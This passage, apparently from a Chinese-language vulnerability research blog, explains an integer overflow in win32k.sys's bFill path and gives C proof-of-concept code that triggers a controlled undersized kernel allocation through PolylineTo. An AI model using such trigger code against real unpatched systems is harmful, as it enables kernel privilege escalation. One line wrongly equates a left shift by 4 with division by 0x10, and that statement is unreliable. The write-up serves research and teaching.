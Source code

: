```c
```

这里注意对 win32k.sys 要下硬件断点，到达断点后查看栈回溯

![]({{site.baseurl}}/images/2018-10-17/calltrace.png)

那么可以知道到达 `bFill` 函数的调用链为

```
EngFastFill() -> bPaintPath() -> bEngFastFillEnum() -> Bfill()
```

在 `EngFastFill` 中还有一个分支语句分别会调用 `bPaintPath`、`bBrushPath` 或者 `bBrushPathN_8x8`，
这取决于 brush 对象是否和 hdc 有关联。在这之前还会检查一下 hdc 设备上下文的类型，总共有四种类型：

- Printer

- Display (默认情况下的类型)

- Information

- Memory (这种类型支持在 bitmap 对象上进行画图操作)

# Controlling the Allocation Size

在之前对 patch 进行对比分析的时候我们已经知道了漏洞产生的具体情况了，主要是这步操作 `lea  ecx, [rax+rax*2]`，
它的操作数为32位，然后是对操作数乘以3，而 ecx 寄存器所能存储的最大值为 0xffffffff，那么在不发生溢出的情况下，
我们所能输入的极限就是：

```
0xffffffff / 3 = 0x55555555
```

只要输入大于这个值，就会触发整数溢出：

```
0x55555556 * 3 = 0x100000002
```

再加上左移4位，相当于除以0x10，那么我们理想的输入就是：

(0x5555556 * 3) = 0x10000002

0x10000002 << 4 = 0x20 (32bit register value)

现在修改我们的代码，调整 PATH 对象中 points 结构的数量，如下代码会触发分配 0x50 字节大小的空间：

```c
void main(int argc, char* argv[]) {
	//Create a Point array 
	static POINT points[0x3fe01];
	points[0].x = 1;
	points[0].y = 1;
	// Get Device context of desktop hwnd
	HDC hdc = GetDC(NULL);
	// Get a compatible Device Context to assign Bitmap to
	HDC hMemDC = CreateCompatibleDC(hdc);
	// Create Bitmap Object
	HGDIOBJ bitmap = CreateBitmap(0x5a, 0x1f, 1, 32, NULL);
	// Select the Bitmap into the Compatible DC
	HGDIOBJ bitobj = (HGDIOBJ)SelectObject(hMemDC, bitmap);
	//Begin path
	BeginPath(hMemDC);
	// Calling PolylineTo 0x156 times with PolylineTo points of size 0x3fe01.
	for (int j = 0; j < 0x156; j++) {
		PolylineTo(hMemDC, points, 0x3FE01);
	}
	// End the path
	EndPath(hMemDC);
	// Fill the path
	FillPath(hMemDC);
```
